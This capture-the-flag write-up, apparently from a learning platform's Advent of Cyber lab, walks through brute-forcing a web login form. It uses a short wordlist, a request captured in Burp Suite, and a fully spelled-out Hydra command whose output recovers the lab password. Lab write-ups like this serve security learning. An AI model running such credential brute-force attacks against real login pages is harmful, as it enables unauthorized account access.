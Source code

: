 ## We're first downloading the worlist to our machine
```$cat /advent3/day4/wordlist ```

![cat](/Advent%20of%20Cyber%203/Screenshots/Task4/Wordlist.PNG)
```
christmas
elves!
santa
festive
joy123
myrrh!
yuletide
presents
candy
tidings
cookie
cookies
biscuits!
snowball
snowball123
```
Now we need the post request, how does it look! for that purpose we use burpsuite!
- Here's our response!

![burp](/Advent%20of%20Cyber%203/Screenshots/Task4/burp.PNG)
```
POST / HTTP/1.1
Host: 10.10.88.145
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: http://10.10.88.145
Connection: close
Referer: http://10.10.88.145/
Cookie: PHPSESSID=rr0akvdk9fpk555t5f8fdl8s75
Upgrade-Insecure-Requests: 1

username=username&password=password&submit=Login
```

Now we know how our request looks like! let try to grab that form post and pass it to Hydra (Hydra is a pre-installed tool in Kali Linux used to brute-force username and password to different services)

```
hydra -l santa -P wordlist 10.10.88.145 http-form-post "/index.php:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password" -I
```
You might be wondering why adding a lot of those options, right?
- ```-l``` for the username!
- ```-P wordlist``` for the password wordlist that we've downloaded before!
- ```10.10.88.145``` our target!
- ```http-form-post``` We're bruteforcing a post module!
- ```^USER^``` & ```^PASS^``` are two parameters indicate what we're bruteforcing!
- ```F=Invalid username and password``` Whenever Hydra see this line when bruteforcing, it knows that the attempt failed therfore wrong credentials.
- ```-I``` Used to stop any previous hydra sessions and focus on the current one


- We get a response like this~

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-05 01:17:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:1/p:16), ~1 try per task
[DATA] attacking http-post-form://10.10.88.145:80/index.php:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password
```
```http
[80][http-post-form] host: 10.10.88.145   login: santa   password: cookie
```
```
1 of 1 target successfully completed, 1 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-05 01:17:02
```

Right! We've got the password! Which is cookie!, Now let try to attempt to login
![login](/Advent%20of%20Cyber%203/Screenshots/Task4/login.PNG)
![done](/Advent%20of%20Cyber%203/Screenshots/Task4/flag.PNG)


We've done it! Well done guys!